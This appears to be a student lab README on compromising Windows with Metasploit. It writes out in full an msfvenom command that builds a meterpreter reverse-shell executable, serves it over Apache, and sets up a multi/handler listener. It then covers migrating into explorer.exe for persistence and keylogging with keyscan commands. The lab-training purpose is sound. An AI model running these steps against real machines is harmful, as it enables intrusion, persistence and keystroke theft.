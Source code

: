 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig 

![image](https://github.com/Irenejecinthamerlin/Compromising-windows-using-Metasploit/assets/128350225/6eda6d60-c4a9-4465-be63-c7202dda7f42)


Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe


![image](https://github.com/Irenejecinthamerlin/Compromising-windows-using-Metasploit/assets/128350225/e794255b-0080-46f9-b427-ec42200bf429)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/Irenejecinthamerlin/Compromising-windows-using-Metasploit/assets/128350225/8be1cb67-ca01-496e-95cc-66002c4fd112)


Start apache server sudo systemctl apache2 start

![image](https://github.com/Irenejecinthamerlin/Compromising-windows-using-Metasploit/assets/128350225/d0db0d94-92b5-4250-a81a-c6ea7b65588d)

Check the status of apache2

![image](https://github.com/Irenejecinthamerlin/Compromising-windows-using-Metasploit/assets/128350225/df0ca80a-28db-4cad-b6ae-01b097cfa38f)


Invoke msfconsole: Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/Irenejecinthamerlin/Compromising-windows-using-Metasploit/assets/128350225/0eef5995-41d1-4da7-9d78-eac262ca1fa0)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/Irenejecinthamerlin/Compromising-windows-using-Metasploit/assets/128350225/378a1764-f4da-4803-973f-132a5657c3ae)

Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit

![image](https://github.com/Irenejecinthamerlin/Compromising-windows-using-Metasploit/assets/128350225/180cef25-fe09-4791-89e7-731cd713b2a9)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156 The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/Irenejecinthamerlin/Compromising-windows-using-Metasploit/assets/128350225/fed90c26-6783-4c5f-9fe5-703a24ba10ae)


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/Irenejecinthamerlin/Compromising-windows-using-Metasploit/assets/128350225/f239ec3f-2501-4d1a-9758-00549e79537f)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/Irenejecinthamerlin/Compromising-windows-using-Metasploit/assets/128350225/ae37843c-71f6-42e3-b70e-b4ec90449c45)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
